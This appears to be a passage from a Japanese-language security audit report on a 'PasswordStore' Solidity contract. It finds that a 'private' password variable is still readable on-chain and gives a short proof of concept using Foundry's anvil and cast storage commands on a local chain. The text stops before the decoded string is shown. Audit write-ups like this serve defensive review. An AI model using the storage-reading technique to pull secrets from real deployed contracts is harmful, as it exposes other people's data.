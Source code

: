 # 問題の発見

- S = Severity: 深刻度
- クリティカル・クリット(Crit)= 非常に高い
- 情報系　= お知らせ事項
- 例：S-低＋番号 = 順番的に並んでいる。

## 高

### [S-高１・クリティカル] 可視性キーワードに関わらず,PasswordStore:: s_password は誰にでも公開されて見えます。

**説明:**<br />

`PasswordStore:: private` キーワードはコントラクト内の変数の可読性に関するものですが,それでも誰にでも見えます。これはプロトコルの目的を完全に破壊します。

`PasswordStore:: string private s_password;`

[https://docs.soliditylang.org/en/v0.8.24/cheatsheet.html#function-visibility-specifiers](https://docs.soliditylang.org/en/v0.8.24/cheatsheet.html#function-visibility-specifiers)

**影響:**<br />

コントラクト内のパスワードは安全ではありません。

**概念実証:**<br />

コントラクト内のプライベート変数を読む方法を示す証拠コード:

ローカルチェーンを実行

```
anvil
```

コントラクトを導入する

```
make deploy
```

`s_password`のストレージ値を取得

```
cast storage 0x5FbDB2315678afecb367f032d93F642f64180aa3 1
```

返されたバイト:

```
0x6d7950617373776f726400000000000000000000000000000000000000000014
```

バイトを文字列に

```
cast parse-bytes32-string 0x6d7950617373776f726400000000000000000000000000000000000000000014
```

返された文字列:
